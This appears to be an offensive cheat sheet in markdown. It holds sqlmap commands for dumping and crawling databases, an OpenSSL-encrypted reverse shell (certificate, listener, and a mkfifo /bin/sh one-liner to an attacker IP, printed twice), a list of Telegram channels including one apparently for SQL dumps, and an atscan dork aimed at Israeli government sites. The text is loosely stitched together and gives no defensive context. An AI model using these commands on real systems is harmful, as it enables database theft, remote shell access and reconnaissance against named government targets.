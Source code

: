 
##  Dump:
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql -D databasename -T tablename --dump


##  Crawl:
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3




##  OpenSSL Encrypted Reverse Shell


##  Generate certificate:
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes


##  Listener: 
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>


##  Reverse Shell:
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s






https://t.me/incidentresponse
https://t.me/sudapodoshel/2
https://t.me/sudapodoshel/2721
https://t.me/RSTReportHub
https://t.me/LibraLair
https://t.me/avleonovnews
https://t.me/SqlDumps/104
http://t.me/combatosint
https://t.me/BoomSecOfficial
https://t.me/thewhiteh4t




#ShadowBrokers






atscan --dork "site:gov.il ext:txt|xlsx|csv" --motor google --level 5 





[SecDevOps]-Toolkit-[Technical-Attacks].md
